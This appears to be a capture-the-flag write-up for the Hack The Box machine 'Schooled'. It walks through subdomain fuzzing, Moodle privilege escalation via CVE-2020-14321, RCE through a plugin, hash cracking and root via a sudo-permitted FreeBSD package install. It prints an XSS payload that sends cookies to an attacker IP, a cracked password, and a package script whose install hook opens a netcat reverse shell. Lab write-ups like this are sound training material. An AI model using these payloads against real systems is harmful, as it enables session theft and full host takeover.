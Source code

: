 ```yaml
---
published: true
title: Hackthebox Schooled walkthrough
date: 2021-11-26 03:34:00 +0200
categories: [HTB]
tags: HTB
---
```


<img src="https://i.ibb.co/j3QZnXc/Schooled.png" alt="Schooled" border="0">

<h2>Summary :</h2>

<li>1 - Stealing admin's cookie with XSS</li>
<li>2 - Privilege escalation using a CVE</li>
<li>3 - Getting RCE </li>
<li>4 - Database Enumeration</li>
<li>5 - Password cracking</li>
<li>6 - Creating malicious pkg</li>

					
<h2>Scanning phase :</h2> 

```
Not shown: 998 closed ports  
 PORT  STATE SERVICE VERSION  
 22/tcp open ssh   OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)  
 | ssh-hostkey:   
 |  2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)  
 |  256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)  
 |_ 256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)  
 80/tcp open http  Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)  
 |_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717  
 | http-methods:   
 |  Supported Methods: GET POST OPTIONS HEAD TRACE  
 |_ Potentially risky methods: TRACE  
 |_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15  
 |_http-title: Schooled - A new kind of educational institute  
 No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```


We found two open ports (22 - 80).

So what should we do here ? 

1 - Searching for an exploit for the running services.<br>
2 - Check the website and see what we can find.

<h2>Enumeration : </h2>

<img src="https://i.ibb.co/27mV3Yj/web.png" alt="web" border="0">

I start checking the application and nothing works, i only found a contact list.

<img src="https://i.ibb.co/dpLJwkX/contact-list.png" alt="contact-list" border="0">

I saw admissions@schooled.htb i was suspicious so i tried to add it as a subdomain "admissions.schooled.htb" but it didn't work.

Now i will try see if there is another subdomain.

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb'  
     /'___\ /'___\      /'___\      
     /\ \__/ /\ \__/ __ __ /\ \__/      
     \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\     
     \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/     
      \ \_\  \ \_\ \ \____/ \ \_\      
      \/_/  \/_/  \/___/  \/_/      
     v1.2.0-git  
 ________________________________________________  
  :: Method      : GET  
  :: URL       : http://schooled.htb/  
  :: Wordlist     : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt  
  :: Header      : Host: FUZZ.schooled.htb  
  :: Follow redirects : false  
  :: Calibration   : false  
  :: Timeout     : 10  
  :: Threads     : 40  
  :: Matcher     : Response status: 200,204,301,302,307,401,403  
 ________________________________________________  
 moodle         [Status: 200, Size: 84, Words: 5, Lines: 2]  
```


<img src="https://c.tenor.com/6xIziN0-uq4AAAAC/boom.gif" alt="boom">

There is our subdomain !

<img src="https://i.ibb.co/12M1hfS/login.png" alt="login" border="0">

Now let's check if we can create an account.

<img src="https://i.ibb.co/4Rx7zrg/Creating-an-account.png" alt="Creating-an-account" border="0">

<img src="https://i.ibb.co/5vqHhYs/account.png" alt="account" border="0">

Creating an account should be in that formula name@student.schooled.htb

<img src="https://i.ibb.co/dDzXFCw/logged-in.png" alt="logged-in" border="0">

After some searching i found this <a href="https://github.com/HoangKien1020/CVE-2020-14321">CVE-2020-14321</a> that is the latest CVE for moodle so it should be for that box 😉

So if you read the CVE you should understood that i should have teacher role to use it.

After a while i found that the only course i can enrol is math course.

<img src="https://i.ibb.co/Gc5wMm9/Math.png" alt="Math" border="0">

I read the announcements and i found this.

<img src="https://i.ibb.co/10C0JM8/hint.png" alt="hint" border="0">

So the teacher interact with the user through moodleNet profile.

The first thing came into my head that i should use xss to steal his cookie, let's try it.

Payload : <img src=x onerror=this.src='http://10.10.x.x:8000/?'+document.cookie;>

<img src="https://i.ibb.co/vzp7m78/xss.png" alt="xss" border="0">

<img src="https://i.ibb.co/1fhZBYL/server.png" alt="server" border="0">

<img src="https://media3.giphy.com/media/l0HlFZ3c4NENSLQRi/200.gif" alt="wow">

<img src="https://i.ibb.co/xCMJcBR/session-hijacking1.png" alt="session-hijacking1" border="0">

Now we are manuel Phillips.

The next thing is enrolling a user, intercept the request, change the role to 1, and ID to our ID. This process will allow us to log in as the user we add. You must pick a user that has a manager role, which in our case is Lianne Carter.

Let's do it ! 

<img src="https://i.ibb.co/NYPwswm/intercept-id.png" alt="intercept-id" border="0">

Now look at the left panel.

<img src="https://i.ibb.co/7KLzTj7/administration.png" alt="administration" border="0">

We have site administration now. 

To get our RCE we have to install a custom plugin but we should edit our role to be able to install plugin.

Go to Users > Define Roles > Manager > Edit to edit our role, intercept the request and change it with the one on github.

<img src="https://i.ibb.co/FW9SZk0/change-role.png" alt="change-role" border="0">

Now we can install plugin.

<img src="https://i.ibb.co/st9NHxc/plugin.png" alt="plugin" border="0">

Just follow <a href="https://github.com/HoangKien1020/Moodle_RCE" >Moodle Rce</a> and trigger the rce at "domain/blocks/rce/lang/en/block_rce.php?cmd=id"

<img src="https://i.ibb.co/dmCmQcB/rce1.png" alt="rce1" border="0">


<h2>Foothold : </h2>

We got our shell !! 

<img src="https://i.ibb.co/swMrynH/shell.png" alt="shell" border="0">

After some enumeration i found database configuration file.

<img src="https://i.ibb.co/DYGB1rL/DB.png" alt="DB" border="0">

When i tried to use mysql the OS didn't find it, so i looked for it in /usr/local/bin and i found it, let's get the creds ! 

<img src="https://i.ibb.co/V2r0wfH/creds.png" alt="creds" border="0">

Now let's crack the hash.

<img src="https://i.ibb.co/ZGpsTWz/crack.png" alt="crack" border="0">

<h2>User Flag : </h2>

Jamies password = !QAZ2wsx

Let's grab our SSH.


<img src="https://i.ibb.co/tm4KHD3/sssh1.png" alt="sssh1" border="0">

Privilege escalation : 

After using sudo -l, we can install pkg with nopasswd.

<img src="https://i.ibb.co/ZWKgMRb/sudo.png" alt="sudo" border="0">

I found this refernce to create a pkg http://lastsummer.de/creating-custom-packages-on-freebsd/ 

Script for getting root :

```
 #!/bin/sh  
 STAGEDIR=/tmp/package  
 rm -rf ${STAGEDIR}  
 mkdir -p ${STAGEDIR}  
 cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF  
 echo “Resetting root shell”  
 rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.x.x 9080 >/tmp/a  
 EOF  
 cat >> ${STAGEDIR}/+POST_INSTALL <<EOF  
 echo “Registering root shell”  
 pw usermod -n root -s /bin/sh  
 EOF  
 cat >> ${STAGEDIR}/+MANIFEST <<EOF  
 name: mypackage  
 version: “1.0_5”  
 origin: sysutils/mypackage  
 comment: “automates stuff”  
 desc: “automates tasks which can also be undone later”  
 maintainer: john@doe.it  
 www: https://doe.it  
 prefix: /  
 EOF  
 pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .  
```

This script will create .txz file.

<img src="https://i.ibb.co/qmNcZwz/txs.png" alt="txs" border="0">

<h2>Root flag : </h2>

1 - Setup a listner on your machine <br>
2 - use this command  "sudo pkg install --no-repo-update *.txz"

<img src="https://i.ibb.co/LpnvwFY/root.png" alt="root" border="0">

<img src="https://c.tenor.com/J4GjjwnXX8QAAAAd/scarface-tony-montana.gif" alt="montana">

